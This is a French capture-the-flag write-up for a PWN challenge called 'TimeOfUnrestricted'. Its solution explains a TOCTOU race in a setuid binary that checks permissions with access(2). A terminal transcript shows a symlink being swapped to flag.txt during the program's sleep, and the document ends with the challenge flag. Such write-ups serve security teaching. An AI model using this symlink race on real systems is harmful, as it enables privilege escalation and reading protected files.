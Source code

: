 # TimeOfUnrestricted
## <u>**CatÃ©gorie**</u>

PWN

## <u>**Description**</u> :

Noiche created a PoC for some file access control, and you got hired as his intern.
You are in charge of evaluating the security of his PoC, so he left a flag.txt on the disk.
Try to read the file, proving him that his PoC need some extra-work :)

FORMAT DU FLAG : flag.txt dans le docker, lisibile après exploitation du service, MCTF{...}

ACCES AU CHALLENGE :

Code source fourni + docker en remote.

## <u>Hints</u> 

ACCESS(2) Control :o

## <u>Auteur</u> 

Noiche

## <u>Solution</u> :

Il existe ici une Race Condition de type TOCTOU, en effet il se passe un certain délai entre le moment où le programme vérifie les droits d'accès au fichier et le moment où il l'ouvre pour le lire. Il est possible d'utiliser un lien symbolique pointant vers un fichier disponble à la lecture pour bypass le check de permissions, puis d'éditer le lien symbolique pour le faire pointer vers le fichier flag.txt avant l'ouverture du fichier.

Exemple :

```bash
 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ls
flag.txt  myFile.txt  src.c  symlink  TimeOfUnrestricted  WU.md

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ll flag.txt TimeOfUnrestricted 
1197532 4.0K -rw------- 1 superuser kali  34 Apr  8 12:25 flag.txt
1179717  20K -rwsr-sr-x 1 superuser kali 17K Apr  8 12:33 TimeOfUnrestricted

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ll symlink
1179790 0 lrwxrwxrwx 1 kali kali 12 Apr  8 12:34 symlink -> ./myFile.txt

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ./TimeOfUnrestricted ./flag.txt 
 [...]
 [Error] File not found / Permission denied : read(./flag.txt)

 ✘ kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ./TimeOfUnrestricted ./myFile.txt 
 [...]
 [Result] Here is the content of the file ./myFile.txt : This is my file

 kali@kali  ~/Documents/SB/MCTF/PWN/chall_2  ./TimeOfUnrestricted ./symlink   
 [...]

 # Pendant l'exécution (au moment du sleep), on utilise la commande ln -sf ./flag.txt symlink
 # L'ouverture du fichier sera donc exécutée avec comme filename "./flag.txt", en bénéficiant de l'EUID
  
 [Result] Here is the content of the file ./symlink : MCTF{Sh0uld_1_ch3ck_f0r_sYml1nk?}
```

##**Flag : MCTF{Sh0uld_1_ch3ck_f0r_sYml1nk?}**
